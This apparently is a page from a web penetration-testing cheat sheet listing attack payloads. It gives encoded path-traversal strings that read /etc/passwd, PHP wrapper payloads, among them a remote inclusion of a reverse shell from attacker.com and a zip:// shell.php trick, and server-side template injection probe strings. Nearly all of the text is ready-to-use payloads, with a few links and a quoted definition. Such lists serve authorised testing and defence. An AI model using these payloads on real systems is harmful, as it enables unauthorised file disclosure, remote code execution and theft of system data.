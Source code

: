```
..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/%252f/etc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252e%252e%252e%252fetc%252fpasswd%00
```
```
../
︰/
..%252f/
..%2f
%2e%2e%2f
%2e%2e/
%2e%2e%5c
..%5c
%252e%252e%255c
..%255c
..%c0%af
```

- [Bypassing with Unicode Compatibility](https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html)
- [File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

### PHP pattern
```
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/convert.base64-encode/resource=http://attacker.com/reverse.php
php://filter/resource=/etc/passwd
zip://path/to/file.zip%23shell.php
http://attacker.com/reverse.php%00
```

- [PHP LFI](https://ruuand.github.io/Local_File_Include/)

# SSTI
> Template engines are widely used by web applications to present dynamic data via web pages and emails. Unsafely embedding user input in templates enables Server-Side Template Injection.
> Template Injection can be used to directly attack web servers' internals and often obtain Remote Code Execution (RCE).
> [source](https://portswigger.net/research/server-side-template-injection)

### Test
```t
${{<%[%'"}}%\.
```
```
{{1+1}}
${1+1}
<%= 1+1 %>
${{1+1}}
#{1+1}
@(1+2)
```
